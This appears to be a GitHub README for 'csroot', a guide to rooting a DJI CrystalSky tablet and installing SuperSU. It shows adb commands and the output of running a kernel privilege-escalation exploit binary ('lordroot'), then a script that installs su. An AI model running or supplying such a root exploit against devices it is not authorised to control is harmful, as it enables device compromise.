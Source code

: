# csroot

## Root your CrystalSky and install SuperSU

#### Thanks to the_lord for finding the exploit and doing the script work!

### Upload the needed files

```
bash-3.2$ ./copy.sh
checking if adb device is present
List of devices attached
1234567890	device

copying files to device
tmp/: 11 files pushed. 6.8 MB/s (8348440 bytes in 1.173s)
bash-3.2$

```

### Navigate to the /tmp folder on your CrystalSky

```
bash-3.2$adb shell
shell@zs600b:/ $ cd data/local/tmp
```

### Execute the Exploit to gain temp root

```
shell@zs600b:/data/local/tmp $ ./lordroot
sh: ./patch_script.sh: not found
max_:3 min:10 i_ret:0x20

F_SETPIPE_SZ 407
    [+] Done target:dc0df1a0 overflowcheck:200000 map:12670 readv_error:0 
    [+] Done target:dc0df1a0 overflowcheck:deadbeef map:12735 readv_error:0 
get_selinux_state -
 - 0
shellcode_root_self i_pid:1408 ppid:1402 i_thread_info:de9ba000 i_task:db2c5e80 i_cred:dcbfb180 i_init_sid:0 
fwrite is count 1 ./kok
shell@zs600b:/data/local/tmp $ 
```

### Run the script to install su binary and supersu.apk

```
1|shell@zs600b:/data/local/tmp $ ./mkdevsh
2+0 records in
2+0 records out
2 bytes transferred in 0.001 secs (2000 bytes/sec)
4+0 records in
4+0 records out
4 bytes transferred in 0.001 secs (4000 bytes/sec)
12+0 records in
12+0 records out
12 bytes transferred in 0.001 secs (12000 bytes/sec)
root@zs600b:/data/local/tmp #
```

### Reboot and run SuperSU from the App Menu

This has been tested on a CrystalSky 7.85 Version 02.04.02.00
